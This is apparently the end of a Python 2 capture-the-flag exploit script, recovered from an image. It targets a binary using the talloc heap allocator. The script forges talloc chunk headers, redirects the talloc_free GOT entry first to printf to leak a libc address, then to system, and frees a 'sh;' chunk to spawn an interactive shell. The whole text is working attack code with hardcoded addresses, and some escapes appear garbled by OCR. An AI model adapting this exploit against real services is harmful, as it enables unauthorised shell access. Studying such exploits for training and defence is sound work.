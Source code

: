 ```
    payload = payload[:-1]
 
    add(io, payload[:-1], 0x300, '777') #0x603280 0x603320   #6
    add(io, 'sh;', 0x100, '888')
 
    #io.gdb_hint()
 
    offset = 0x603490 - 0x603320
    #                      size        next    prev     parent
    fake_head1 = l64(0x210)+l64(0x90)+ l64(0) +l64(0)+ l64(0x603a60)
                # child   refs  descutor   name      size       flags                   pool   padding
    fake_head2 = l64(0)+l64(0)+l64(0)+l64(0x400dc4)+l64(0x100)+l64(0x00000000e8150c70)+l64(0)+l64(0)+l64(0)
    fake_head2 = fake_head2.ljust(0x90-0x28, 'x00')
    fake_head2 += l64(0) + l64(0x21) + 'x00'*0x10 + l64(0) + l64(0x21)
 
    fake_head1 = fake_head1[:-6]
    payload = 'x00' + l64(0)+l64(0xa1)+l64(0)+l64(0)+l64(0)+l64(0x6034a0)
    payload = payload[:-6]
    edit(io, 4, 0x100-1, payload)
    edit2(io, 6, offset, fake_head1)
    edit2(io, 6, offset+0x28, fake_head2)
 
    delete(io, 5)
 
    talloc_free_got = 0x602048
    print_plt = 0x4007E0
 
    title = l64(talloc_free_got) + l64(0) + l64(0) + l64(0x6020d0)
    title = title[:-2]
    change(io, 6, title)
 
    change(io, 3, l64(print_plt)[:-1])
 
    io.gdb_hint()
    delete(io, 0)
 
    io.read_until('0x')
    main_ret = int(io.read_until('De')[:-2], 16)
    base = main_ret - 0x0000000000021EC5
    print hex(base)
    system = base + 0x0000000000046640
    print hex(system)
 
    change(io, 3, l64(system)[:-1])
 
    delete(io, 7)
 
    interact(io)
 
exp(target)
```
